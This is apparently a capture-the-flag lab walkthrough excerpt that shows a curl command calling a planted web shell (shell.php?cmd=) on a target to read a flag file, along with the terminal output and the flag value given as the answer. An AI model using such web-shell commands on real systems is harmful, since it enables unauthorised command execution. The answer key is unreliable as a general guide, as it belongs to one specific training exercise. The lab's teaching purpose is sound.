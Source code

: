 ```shell
curl -w "\n" -s http://STMIP:STMPO/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-ubuyae6zow]─[~]
└──╼ [★]$ curl -w "\n" -s http://159.65.63.151:31872/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt | sed -e '1,2d'

	528d6d9cedc2c7aab146ef226e918396
```

Answer: `528d6d9cedc2c7aab146ef226e918396`